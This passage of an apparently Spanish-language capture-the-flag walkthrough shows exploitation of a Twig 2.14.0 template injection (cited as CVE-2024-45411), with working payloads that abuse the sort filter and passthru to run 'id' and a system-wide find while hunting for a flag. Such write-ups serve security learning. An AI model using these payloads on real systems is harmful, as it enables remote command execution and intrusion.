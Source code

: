 ```twig
{{['id',1]|sort('passthru')|join}}
```

📌 Hallazgos:

El payload usa el filtro sort para forzar la llamada a la función passthru.

Esto permite ejecutar comandos del sistema directamente desde el campo vulnerable.

Confirma que la vulnerabilidad de Twig 2.14.0 (CVE-2024-45411) es explotable y nos da control sobre el sistema.

---

## 🖥️ Paso 23 – Ejecución de comandos con SSTI

Tras explotar la vulnerabilidad SSTI en Twig, probamos la ejecución del comando:

<img width="1001" height="151" alt="entramos root" src="https://github.com/user-attachments/assets/1b54cea0-df16-4019-9073-40322562d83b" />

```bash
id
```
📌 Resultado:

uid=33(www-data) gid=33(www-data) groups=33(www-data)

Esto confirma que tenemos ejecución de comandos en el servidor bajo el usuario www-data (el proceso por defecto del servidor web Apache en Ubuntu).

---

## 📂 Paso 24 – Búsqueda de archivos en el sistema

Con el acceso RCE vía SSTI, lanzamos un comando para buscar archivos `.txt` en todo el sistema:

<img width="760" height="244" alt="lectura de archivos" src="https://github.com/user-attachments/assets/d852a7c8-8997-4dff-bae6-97a16c9f976e" />

```twig
{{['find / -type f -name "*.txt" 2>/dev/null',1] | sort('passthru') | join}}
```

📌 Hallazgos:

Este payload ejecuta el comando find para listar archivos con extensión .txt, redirigiendo los errores a /dev/null para evitar ruido en la salida.

Esto nos permitirá ubicar posibles flags o archivos de configuración sensibles (contraseñas, notas del administrador, etc.).

---

## 🏴 Paso 25 – Localización de la segunda flag

Con el comando `find` identificamos un archivo sospechoso en el directorio de la web:

<img width="972" height="290" alt="archivo encontrado" src="https://github.com/user-attachments/assets/3e39be92-d9dd-4a0c-8740-912e8eabda4c" />
